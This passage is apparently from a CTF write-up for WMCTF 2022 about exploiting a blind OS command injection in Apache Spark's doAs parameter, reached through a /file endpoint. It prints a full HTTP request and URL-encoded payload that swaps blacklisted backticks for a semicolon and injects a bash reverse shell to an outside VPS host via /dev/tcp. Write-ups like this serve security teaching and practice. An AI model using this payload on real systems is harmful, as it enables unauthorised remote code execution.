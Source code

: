 <img src="https://github.com/anas-cherni/CTF-writeups/blob/main/WMCTF%202022/screenshots/CVE_explained.png">
 </p><br>

We're too close to reach our flag, it's a **blind os command injection** context that will give us **remote code execution**, but hold on! Remember that **\`** was blacklisted :)  
As a result, the proof of concept for this CVE ain't working :)
>http://10.244.0.228:8080/?doAs=\`COMMAND\`

The author said that I should dive deep in **Spark source** code in order to get an alternative, that's really tough ! 
## Final solution
```
POST /file HTTP/1.1
Host: 1.13.254.132:8080
Content-Length: 116
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://1.13.254.132:8080
Referer: http://1.13.254.132:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=079D05EA2477663463009EADC94CA8B9
Connection: close

url=http://10.244.0.230:8080/?doAs=%253bbash%2b-i%2b>%2526%2b/dev/tcp/[personal VPS IP]/8888%2b0>%25261&Vcode=LRN9
```
#### Payload
```
http://10.244.0.230:8080/?doAs=%253bbash%2b-i%2b>%2526%2b/dev/tcp/[personal VPS IP]/8888%2b0>%25261
```
#### Notes
- "?doAs=;command" is a **proved alternative** for "?doAs=\`command\`"